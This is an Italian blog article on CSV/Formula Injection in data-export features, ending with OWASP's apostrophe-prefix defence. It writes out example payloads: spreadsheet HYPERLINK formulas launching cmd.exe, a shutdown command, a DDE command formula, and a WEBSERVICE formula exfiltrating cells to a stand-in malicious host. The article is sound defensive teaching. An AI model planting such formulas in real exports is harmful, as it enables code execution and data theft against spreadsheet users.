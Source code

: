 **Comma Separated Victims (sottotitolo:  Attenti alla Formula!)**

Quante volte ti è capitato di aver a che fare con l'export dei dati in formato CSV?
Diverse volte, suppongo.
Sei consapevole dei rischi a cui potresti andare incontro sottovalutando alcune vulnerabilità nello sviluppo di una componente per l'export dei dati in formato CSV, che potrebbero consentire una serie di attacchi quali  **Remote Code Execution**  o **Data Breach**.
Se non hai mai sentito parlare di **Injection** e, più precisamente di **Formula Injection** o di **CSV Injection**,  allora questo articolo farà certamente al caso tuo.

Nel mio [precedente articolo](https://techblog.smc.it/it/2020-06-19/injection-attacks-how-to-prevent-with-liferay) su questo techblog avevo già illustrato come gli attacchi di tipo Injection possono rappresentare un serio rischio per la sicurezza dei tuoi dati, e come prevenirli con Liferay.
La lettura di questo articolo: [Injection attacks - how to prevent with Liferay](https://techblog.smc.it/it/2020-06-19/injection-attacks-how-to-prevent-with-liferay) è dunque vivamente consigliata al fine di comprendere al meglio gli argomenti trattati; tuttavia se sei un lettore esperto e già conosci le insidie che si nascondono dietro questo tipo di attacchi e le strategie per neutralizzarli, allora non avrai di certo difficoltà a proseguire con la lettura.

Come saprai, la prima regola per scongiurare gli attacchi di tipo Injection consiste nella validazione degli input: ciò consentirà di escludere alcuni caratteri più o meno speciali che potrebbero riverlarsi assai utili per l'attaccante.
Purtroppo però non sempre è facile definire una espressione regolare che consenta di filtrare in modo efficace i caratteri non desiderati dagli input, senza fare a meno di caratteri che invece appartengono propriamente al dominio dell'input e dei quali non possiamo farne a meno. Un esempio può essere il carattere apostrofo " ' " che non possiamo di certo escludere dai campi di input per il nome ed il cognome, ma del quale faremmo volentieri a meno in quanto lo stesso carattere è sia un valido separatore di attributi in HTML che un carattere indispensabile nel linguaggio SQL per definire sequenze di caratteri. Per questo motivo è sempre opportuno assicurarsi di non aver trascurato la seconda regola per la neutralizzazione degli attacchi di tipo **Injection**, che consiste nella sanitizzazione dell'output o **output escaping**. 
Nonostante tutte queste precauzioni potrebbe però accadere che, del tutto ignari dei rischi che potrebbero derivare dalla mancanza di escaping dei valori delle celle che si esportano, tutte queste attenzioni che abbiamo dato all'output sanitization in pagina vengono poi trascurate quando ci troviamo di fronte ad una componente di export CSV. 

*Niente di più pericoloso...*

Del resto anche nei nomi delle API che utilizziamo per effettuare l'escaping compaiono spesso i termini HTML e JS mentre difficilmente comparirà il termine CSV, e potrebbe anche essere questa la giustificazione di una nostra eventuale dimenticanza.

Per mostrarti in modo efficace il rischio che stai correndo, concentriamoci ora su uno dei campi di input più insidiosi da validare: il campo *note*. 
Spesso, per dare più libertà all'utente, oltre ai caratteri alfanumerici in un campo *note* multilinea sono consentiti i caratteri di punteggiatura ed alcuni simboli di valute oltre al simbolo "%" percentuale o altri caratteri speciali. 

Ma **nelle situazioni più comuni** non effettuiamo alcun tipo di validazione né di escaping dei valori delle celle esportate nel CSV, perché in genere **non sospettiamo affatto delle insidie che possono nascondersi dietro l'interpretazione di valori non desiderati in un foglio di calcolo**.

Nei fogli di calcolo più diffusi nelle Office suite, come LibreOffice Calc o Microsoft Excel, alcune funzioni del foglio di calcolo possono rivelarsi un serio problema dal punto di vista della sicurezza. 

In particolare, potremmo inserire nel campo note in input la sequenza:

    =COLLEG.IPERTESTUALE("C:\Windows\System32\cmd.exe";"Apri la pagina web")

per generare in output un CSV che nella cella corrispondente avrà un valore che se cliccato dall'utente consentirà l'esecuzione (previa conferma da parte dell'utente) del comando al percorso indicato. Nell'esempio aprirà il prompt dei comandi sulla macchina della vittima; in questo modo l'attaccante è riuscito a sfruttare un attacco **Formula Injection** per ottenere l'esecuzione (**Remote Code Execution**) di un comando del Sistema Operativo. 

Allarmante, vero?

Del resto potremmo ovviare semplicemente con l'aggiunta di qualche meccanismo di validazione, se non fosse per il fatto che, trattandosi di hyperlink, di certo il foglio di calcolo potrà interpretare correttamente anche la seguente stringa in formato URL encoded:

    =COLLEG.IPERTESTUALE("C%3A%5Cwindows%5Csystem32%5Ccmd.exe")
   
ecco dunque il motivo per il quale potrebbe risultare complicato proteggersi da un attacco di questo tipo nei casi in cui alcuni simboli come il percentuale, l'uguale o le parentesi tonde debbano essere accettati in input a meno di non voler limitare l'applicazione venendo meno alle necessità concordate con l'utente.

Per fortuna i fogli di calcolo che supportano questa tipologia di formule consentono la sola esecuzione del file indicato sul percorso e non il passaggio dei parametri, altrimenti potremmo effettuare lo **shutdown** immediato di un Sistema Operativo Windows iniettando il comando:

    C:\Windows\System32\cmd.exe /C "shutdown /p"

ma ciò è soltanto una magra consolazione, se pensiamo che invece è ammessa l'esecuzione di script in formato .vbs (VBScript).

Qualora la vittima utilizzasse invece versioni precedenti della suite Office oppure una versione recente in cui è abilitato il servizio [**Dynamic Data Exchange**](https://docs.microsoft.com/it-it/office/troubleshoot/excel/security-settings), allora potrebbe anche rischiare di subire un attacco ben più grave che consente l'esecuzione di comandi stavolta anche con il supporto dei parametri:

    =cmd|'/K echo INJECTION'!A0

Attacchi di questo tipo mediante **Formula Injection** sono dunque degli stratagemmi per arrivare ad altre tipologie di attacchi ben più pericolosi quali l'esecuzione di un comando o di una applicazione (**Remote Code Execution** o **Arbitrary Code Execution**) in modo indesiderato.

Dal momento che si accennava agli hyperlink, un attaccante potrebbe sfruttare un attacco di tipo **Formula Injection** anche per l'invocazione di servizi web malevoli mediante la funzione per l'invocazione dei servizi web. 
Ad esempio un attaccante potrebbe sfruttare la vulnerabilità per iniettare una formula che possa invocare un servizio web a sua scelta al fine di ricevere i dati presenti nelle colonne C6, C7 e C8 . L'utente ignaro di tutto potrebbe involontariamente invocare una HTTP Request verso il servizio malevolo:

    =SERVIZIO.WEB(CONCATENA("http://service.malware?d="; C6&","&C7&","&C8))

passando nel parametro "d" i dati che desidera, sfruttando così un attacco **Formula Injection** ai fini di un **Data Breach** .

Arrivati a questo punto ti starai chiedendo quali sono le strategie utili a neutralizzare questo tipo di attacchi.

In accordo con quanto [consigliato da **OWASP**](https://owasp.org/www-community/attacks/CSV_Injection) in merito alle strategie di difesa mediante neutralizzazione degli attacchi di tipo **CSV Injection** o **Formula Injection**, è sufficiente anteporre il carattere apostrofo " ' " ad ogni valore di cella che inizi per:

 - = (*uguale*)
 - \+  (*più*)
 - \-  (*meno*)
 - @  (*chiocciola*)
 
 in questo modo si eviterebbe al foglio di calcolo di interpretare come formula il valore contenuto nella cella, che mostrerà il valore come una semplice stringa.

Ovviamente ciò non ci renderà immuni da quell'utente che decida arbitrariamente di modificare il valore della cella eliminando il carattere apostrofo.
In tal caso potremmo adottare strategie più o meno restrittive o invasive di sanitizzazione al fine di proteggere anche gli utenti più *intraprendenti* da se stessi.

 
